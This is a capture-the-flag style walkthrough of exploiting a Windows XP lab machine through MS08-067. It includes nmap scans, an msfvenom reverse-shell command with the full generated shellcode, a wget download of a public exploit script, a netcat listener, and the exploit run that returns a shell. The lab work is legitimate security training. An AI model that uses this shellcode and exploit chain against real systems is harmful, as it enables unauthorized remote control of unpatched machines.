

# Enumeration

## Run Nmap Scan

```bash
nmap 10.10.10.4 -p- -sC -sV -Pn -n --min-rate 6000 -oA tcpDetailed

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 06:36 BST
Nmap scan report for 10.10.10.4
Host is up (3.5s latency).
Not shown: 64087 filtered tcp ports (no-response), 1445 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 005056b939b7 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-09-16T10:42:15+03:00
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m40s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 477.30 seconds
"
```

```bash
nmap 10.10.10.4 -p 135,139,445 --script vuln

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 06:48 BST
Nmap scan report for 10.10.10.4
Host is up (0.17s latency).

PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 40.27 seconds
"
```

We know that this system is vulnerable to **ms08-067 exploit**

# Exploitation

## Creating Shellcode for Reverse Shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker IP> LPORT=4443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

`
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1491 bytes
unsigned char buf[] = 
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x84\xf1\x8e\x92\x83\xee\xfc\xe2\xf4\x78\x19\x0c\x92"
"\x84\xf1\xee\x1b\x61\xc0\x4e\xf6\x0f\xa1\xbe\x19\xd6\xfd"
"\x05\xc0\x90\x7a\xfc\xba\x8b\x46\xc4\xb4\xb5\x0e\x22\xae"
"\xe5\x8d\x8c\xbe\xa4\x30\x41\x9f\x85\x36\x6c\x60\xd6\xa6"
"\x05\xc0\x94\x7a\xc4\xae\x0f\xbd\x9f\xea\x67\xb9\x8f\x43"
"\xd5\x7a\xd7\xb2\x85\x22\x05\xdb\x9c\x12\xb4\xdb\x0f\xc5"
"\x05\x93\x52\xc0\x71\x3e\x45\x3e\x83\x93\x43\xc9\x6e\xe7"
"\x72\xf2\xf3\x6a\xbf\x8c\xaa\xe7\x60\xa9\x05\xca\xa0\xf0"
"\x5d\xf4\x0f\xfd\xc5\x19\xdc\xed\x8f\x41\x0f\xf5\x05\x93"
"\x54\x78\xca\xb6\xa0\xaa\xd5\xf3\xdd\xab\xdf\x6d\x64\xae"
"\xd1\xc8\x0f\xe3\x65\x1f\xd9\x99\xbd\xa0\x84\xf1\xe6\xe5"
"\xf7\xc3\xd1\xc6\xec\xbd\xf9\xb4\x83\x0e\x5b\x2a\x14\xf0"
"\x8e\x92\xad\x35\xda\xc2\xec\xd8\x0e\xf9\x84\x0e\x5b\xc2"
"\xd4\xa1\xde\xd2\xd4\xb1\xde\xfa\x6e\xfe\x51\x72\x7b\x24"
"\x19\xf8\x81\x99\x84\x98\x8a\xfb\xe6\x90\x84\xe0\xd5\x1b"
"\x62\x9b\x9e\xc4\xd3\x99\x17\x37\xf0\x90\x71\x47\x01\x31"
"\xfa\x9e\x7b\xbf\x86\xe7\x68\x99\x7e\x27\x26\xa7\x71\x47"
"\xec\x92\xe3\xf6\x84\x78\x6d\xc5\xd3\xa6\xbf\x64\xee\xe3"
"\xd7\xc4\x66\x0c\xe8\x55\xc0\xd5\xb2\x93\x85\x7c\xca\xb6"
"\x94\x37\x8e\xd6\xd0\xa1\xd8\xc4\xd2\xb7\xd8\xdc\xd2\xa7"
"\xdd\xc4\xec\x88\x42\xad\x02\x0e\x5b\x1b\x64\xbf\xd8\xd4"
"\x7b\xc1\xe6\x9a\x03\xec\xee\x6d\x51\x4a\x6e\x8f\xae\xfb"
"\xe6\x34\x11\x4c\x13\x6d\x51\xcd\x88\xee\x8e\x71\x75\x72"
"\xf1\xf4\x35\xd5\x97\x83\xe1\xf8\x84\xa2\x71\x47";
`
```

## Get the Exploit

```bash
wget https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
```

### Tested Environment

> Python3.9 with impacket (0.10.1.dev1+20230316.112532.f0ac44bd) & pycryptodomex (3.9.7)
> 

## Change the Shellcode inside the Exploit file (MS08-067.py)



Change the shellcode to our shellcode for our reverse shell

## Understanding what options (target OS) are available

```bash
python3 ms08-067.py

`
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################

$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .

#######################################################################

Usage: ms08-067.py <target ip> <os #> <Port #>

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

FYI: nmap has a good OS discovery script that pairs well with this exploit:
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1
`
```

Looks like number **6** is suitable to our target

## Getting a Reverse Shell

Start listening the reverse shell, then execute the exploit

```bash
nc -lvnp 4443

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1036.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
"
```

```bash
python3 ms08-067.py 10.10.10.4 6 445

`
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################

$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .

#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
`
```